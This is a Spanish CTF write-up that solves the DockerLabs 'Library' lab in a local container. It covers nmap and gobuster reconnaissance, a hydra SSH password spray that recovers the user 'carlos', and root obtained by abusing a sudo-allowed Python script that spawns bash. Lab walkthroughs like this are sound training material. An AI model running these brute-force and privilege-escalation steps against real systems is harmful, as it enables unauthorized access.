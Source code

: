 #MAQUINA #DOCKERLABS #FACIL 

<hr>

# RECONOCIMIENTO

Vamos a resolver **Library** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 11:58 CET
Initiating ARP Ping Scan at 11:58
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:58, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:58
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:58, 0.47s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-22 11:58:10 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 16:56 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.000025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.33 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 16:57 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.
## HTTP (80)

Al revisar la web que hay en el puerto 80, con **gobuster** vemos que hay lo siguiente:

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,php,html,js,txt,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

**Conclusiones:** En el index.php encontramos un texto ->**JIFGHDS87GYDFIGD** -> posible contraseña.

# EXPLOTACION

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-26 17:01:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
[STATUS] 553.00 tries/min, 553 tries in 00:01h, 8294945 to do in 249:60h, 21 active

```
**usuario : carlos**
**contraseña: JIFGHDS87GYDFIGD**

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
carlos@4ec7f18eaafe:~$ sudo -l
Matching Defaults entries for carlos on 4ec7f18eaafe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on 4ec7f18eaafe:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py


```

Vemos **/opt/script.py** con permisos SUDO :
   ```bash
carlos@4ec7f18eaafe:/opt$ chmod +777 script.py 
carlos@4ec7f18eaafe:/opt$ cat script.py 
import os

os.execv("/bin/bash",[" -p"])
carlos@4ec7f18eaafe:/opt$ sudo /usr/bin/python3 /opt/script.py
root@4ec7f18eaafe:/opt# whoami
root
root@4ec7f18eaafe:/opt# 
```

**YA ESTAMOS COMO ROOT.**